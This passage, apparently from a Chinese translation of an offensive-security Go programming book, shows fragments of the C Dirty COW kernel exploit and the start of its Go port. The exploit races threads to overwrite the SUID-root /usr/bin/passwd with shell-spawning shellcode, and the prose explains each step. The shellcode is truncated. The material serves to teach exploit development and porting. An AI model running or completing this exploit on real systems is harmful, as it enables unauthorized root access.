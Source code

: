 ```

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

*Listing 9-5: 用 C 语言编写的 Dirty COW 特权提升漏洞利用代码*

与其详细解释 C 代码的逻辑，不如先概括地看一下，然后将其拆分成小块，逐行与 Go 版本进行比较。

这个利用漏洞的攻击定义了一些恶意的 Shellcode，采用可执行和可链接格式（ELF），该代码生成一个 Linux shell。它通过创建多个线程来执行代码，这些线程调用各种系统函数，将我们的 Shellcode 写入内存位置。最终，Shellcode 通过覆盖一个恰好设置了 SUID 位且属于 root 用户的二进制可执行文件的内容来利用这个漏洞。在这种情况下，该二进制文件是*/usr/bin/passwd*。通常，非 root 用户无法覆盖该文件。然而，由于 Dirty COW 漏洞，您可以通过写入任意内容到该文件，同时保留文件权限，从而实现特权提升。

现在让我们将 C 代码拆分成易于消化的部分，并逐一与 Go 中的等效部分进行比较。请注意，Go 版本特别试图逐行再现 C 版本。Listing 9-6 展示了在 C 中定义或初始化的全局变量，而 Listing 9-7 则展示了 Go 中的对应内容。

```
❶ void *map;
   int f;
❷ int stop = 0;
   struct stat st;
   char *name;
   pthread_t pth1,pth2,pth3;

   // change if no permissions to read
❸ char suid_binary[] = "/usr/bin/passwd";

❹ unsigned char sc[] = {
     0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
     --snip--
     0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
   };
   unsigned int sc_len = 177;
```

*Listing 9-6: C 中的初始化*

```
❶ var mapp uintptr
❷ var signals = make(chan bool, 2)
❸ const SuidBinary = "/usr/bin/passwd"

❹ var sc = []byte{
       0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
       --snip--
       0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
   }
```
